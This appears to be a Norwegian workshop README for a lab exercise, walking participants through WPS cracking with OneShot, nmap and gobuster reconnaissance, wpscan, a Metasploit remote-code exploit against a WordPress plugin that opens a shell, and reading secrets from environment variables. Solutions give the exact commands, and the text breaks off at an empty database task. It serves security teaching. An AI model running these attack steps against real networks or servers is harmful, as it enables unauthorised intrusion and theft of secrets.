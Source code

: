 # Hackerworkshop Bekk Fagdag 21.10.2022

I denne workshopen skal du bryte deg inn på en ruter, kartlegge nettverket, finne sårbarheter i en webserver og skaffe deg tilgang til serveren og dens database.

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### 1. Bryt deg inn på wifi-nettverket
Routeren vi har satt opp bruker en sårbar implementasjon av WPS-protokollen. Ved hjelp av [OneShot](https://github.com/drygdryg/OneShot) kan vi utnytte det! 

**Bruk Oneshot og pixiedust til å finne passordet til HackMe-nettverket. Repoet er allerede klonet og klart på maskinen!**

<details>
<summary>Hint 1</summary>
Naviger til OneShot-repoet i en terminal og kjør oneshot.py med riktig options.
</details>

<details>
<summary>Hint 2</summary>

Dere må spesifisere riktig trådløst grensesnitt ved å bruke `-i` flagget. Trådløst grensesnitt kan du finne med kommandoen `iwconfig`.
  
</details>

<details>
<summary>Hint 3</summary>
  
Om det tar lang tid, kan det hende dere har glemt å spesifisere hvilket angrep OneShot skal kjøre, ved å kjøre `--pixie-dust`.
</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under, og velg nettverket HackMe.
  
```
sudo python oneshot.py -i wlan0 --pixie-dust
```

</details>

</br>

### 2. Kartlegging
Nå som dere er koblet til nettverket, skal dere finne ut hvilke enheter og hvilke åpne porter som er tilgjengelige. 
Noter eventuelle interessante funn.

<details><summary>Hint 1</summary>

Her kan dere bruke verktøyet `nmap` til å scanne nettverket. Bruk `man nmap` for å se hvilke options dere kan gi til nmap.

</details>

<details><summary>Hint 2</summary>

Enheter som ligger i IP-rangen `192.168.38.100 - 192.168.38.255` er dere selv og andre deltakere i workshopen.

</details>

<details><summary>Løsningsforslag</summary>

Kjør nmap med `-A`flagget for å vise mer informasjon om her host.
  
```sudo nmap -A 192.168.38.0-100```
  
</details>


</br>

### 3. Grav dypere!
Velg dere ut det funnet fra forrige oppgave dere tenker er mest interessant å se videre på. Dere skal nå forsøke å lære litt mer om denne enheten, i jakten på en angrepsvinkel.

**a) Finn ut hvilke teknologier som er i bruk på serveren**

<details><summary>Hint 1</summary>
Også her er nmap et fint verktøy. Hvilke porter er åpne? Svarer serveren på http/https-trafikk? 
</details>

<details><summary>Hint 2</summary>
Ved å se at port 8080 er åpen, kan vi anta at serveren svarer på https-trafikk. Om dere åpner IP-adressen i en browser får dere nok et hint! 

Om dere ønsker, kan dere også bruke wappalyzer-utvidelsen i nettleseren for å undersøke nærmere. 
</details>
 
b) **Se etter skjulte ressurser på serveren ved hjelp av verktøyet `gobuster`. Bruk gjerne en kort ordliste, f. eks. [denne](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) for å unngå å overbelaste serveren.**

<details><summary>Hint 1</summary>
Last ned ordlisten og kjør kommandoen under. Ser dere noen interessante funn?

```gobuster dir -u http://192.168.38.72:1337 -w common.txt```
</details>

<details><summary>Løsningsforslag</summary>

Her finnes det flere måter man kan konkludere med at webserveren kjører en wordpress-instans. Man kan feks åpne http://192.168.38.72 i en browser, og se at "Powered by wordpress" pryder footeren på siden. 
  
Ved hjelp av gobuster kan vi også finne frem til siden (TODO: Hvilken side var det de kunne finne her?). Om dere fant denne, fikk dere også et flagg. Yay!

</details> 
 
</br>

### 4. Kjente sårbarheter?

Nå som dere har funnet ut hvilke teknologier som brukes, er neste steg å finne ut nøyaktig hvilke versjoner som kjører, og om de har noen kjente sårbarheter. 
</br></br>
**Se om dere finner noe sårbart som kjører på serveren!**

<details><summary>Hint 1</summary>

Ettersom vi vet at dette er en wordpress-server, kan vi bruke verktøyet `wpscan`. Dette verktøyet er allerede installert på kali linux, og brukes til å scanne blant annet sårbare versjoner, plugins og themes i tillegg til feilkonfigurasjoner.

</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under. Fra resultatet ser vi at serveren kjører en sårbar versjon av pluginen simple-file-list. 
  
```wpscan --url http://192.168.38.72:1337 ```

</details>
</br>

### 5. Exploit time!
Nå som vi er ferdig med kartlegging av målet, er det på tide å dra frem storskytsen! Vi har funnet et mål, kartlagt teknologien og funnet en sårbarhet vi kan bruke som inngang. 
</br> </br>
**Bruk metasploit til å skaffe dere et shell på serveren.**

<details><summary>Hint 1</summary>
  
For å starte metasploit (metasploit framework console) kjører dere kommandoen `msfconsole`. Inne i metasploit-konsollen kan dere bruke kommandoen `search` for å lete etter en konkret exploit. 
</details>

<details><summary>Hint 2</summary>
  
Exploiten dere trenger heter `exploit/multi/http/wp_simple_file_list_rce`. Last den inn ved å bruke `use`-kommandoen. `options`-kommandoen er nyttig for å se hvilke variabler som må settes før exploiten kjøres. 
</details>

<details><summary>Hint 3</summary>

Dere må sette følgende variabler ved hjelp av metasploits `set`-kommando.
  
```
RHOST - Remote host, denne fant dere tidligere
RPORT - Remote port, denne fant dere tidligere
LHOST - Local host. Deres egen IP (ikke localhost)
```
</details>

<details><summary>Løsningsforslag</summary>
</br>
Kjør kommandoene under, så vil du forhåpentligvis få et shell på serveren!
  
```
> msfconsole
> use exploit/multi/http/wp_simple_file_list_rce
> set RHOST 192.168.38.72
> set RPORT 1337
> set LHOST <deres egen ip>
> exploit
```  
</details>

</br>

### 6. Se dere rundt!
Nå som vi har et shell på serveren, kan vi begynne å snoke rundt etter noe interessant (.. i dette tilfellet et flagg!). 
</br></br>
**Ta en runde på serveren, og se om dere finner noe som ligner et flagg.**

<details><summary>Hint 1</summary>
Det kan være fristende å navigere rundt i filsystemet, men det vil være en blindvei i dette tilfellet. 
</details>


<details><summary>Hint 2</summary>
Hvor pleier man å gjemme hemmeligheter?
</details>

<details><summary>Hint 3</summary>
Det kan være lurt å ta en titt på miljøvariabler.
</details>

<details><summary>Løsningsforslag</summary>

Flagget ligger i en miljøvariabel på serveren. Kjør følgende kommando: `printenv`
</details>

</br>

### 7. Kom dere inn i databasen!

